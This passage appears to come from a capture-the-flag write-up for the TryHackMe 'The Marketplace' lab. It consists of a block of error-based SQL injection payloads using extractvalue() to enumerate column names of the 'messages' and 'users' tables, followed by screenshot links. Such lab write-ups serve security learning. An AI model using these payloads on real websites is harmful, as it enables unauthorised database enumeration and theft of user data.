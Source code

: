 ```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 4,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 2,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 3,1)))--
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a41.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a42.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a43.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a44.png)
